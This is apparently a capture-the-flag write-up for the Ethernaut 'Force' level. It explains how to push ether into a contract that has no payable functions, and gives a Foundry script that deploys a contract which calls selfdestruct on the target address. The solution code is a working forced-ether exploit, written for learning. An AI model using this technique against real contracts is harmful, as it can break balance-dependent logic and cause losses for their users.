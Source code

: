 ## Force

**Level7.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

**Goal:**

We need to make the balance of the Force contract more than 0.

**Explanation:**

1. There is no `receive()/fallback()` function and no payable functions in the Force contract.
2. If we send any ether to this contract it will be reverted.
3. One thing ,  we can  do is that  deploy a contract with some ether and implement a `selfdestruct` function and pass the recepient as the `Force` contract address.
4. Upon selfdestruct of the Attack contract, Force contract will receive ether.

**Level7Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

contract ToBeDestructed{
    constructor(address payable _forceAddress) payable{
        selfdestruct(_forceAddress);
    }
}

contract Level7Sol is Script{
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new ToBeDestructed{value: 1 wei}(payable(0x562488c3a3f2208737b860fF335cfBc3CD306865));
        vm.stopBroadcast();
    }
}
```
